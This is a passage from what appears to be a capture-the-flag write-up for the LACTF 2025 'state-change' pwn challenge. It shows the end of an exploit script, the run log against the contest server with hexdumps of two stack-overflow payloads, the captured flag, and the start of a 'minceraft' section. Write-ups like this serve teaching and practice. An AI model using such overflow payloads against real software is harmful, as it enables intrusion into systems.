 ```py

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/LACTF2025/state-change
$ ./xpl.py REMOTE chall.lac.tf 31593
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to chall.lac.tf on port 31593: Done
[DEBUG] Received 0x26 bytes:
    b"Hey there, I'm deaddead. Who are you?\n"
[DEBUG] Sent 0x30 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  50 45 40 00  00 00 00 00  bd 12 40 00  00 00 00 00  │PE@·│····│··@·│····│
    00000030
[DEBUG] Received 0x26 bytes:
    b"Hey there, I'm deaddead. Who are you?\n"
[DEBUG] Sent 0x2f bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 2d  │AAAA│AAAA│AAAA│AAA-│
    00000010  ee ee f1 00  00 00 00 42  42 42 42 42  42 42 42 42  │····│···B│BBBB│BBBB│
    00000020  42 42 42 42  42 42 42 d6  11 40 00 00  00 00 00     │BBBB│BBB·│·@··│···│
    0000002f
[*] Switching to interactive mode

[DEBUG] Received 0x36 bytes:
    b"Here's the flag: \n"
    b'lactf{1s_tHi5_y0Ur_1St_3vER_p1VooT}\n'
Here's the flag:
lactf{1s_tHi5_y0Ur_1St_3vER_p1VooT}
```

# pwn/minceraft

## Description

>
> look mom i made minecraft!

## Analysis
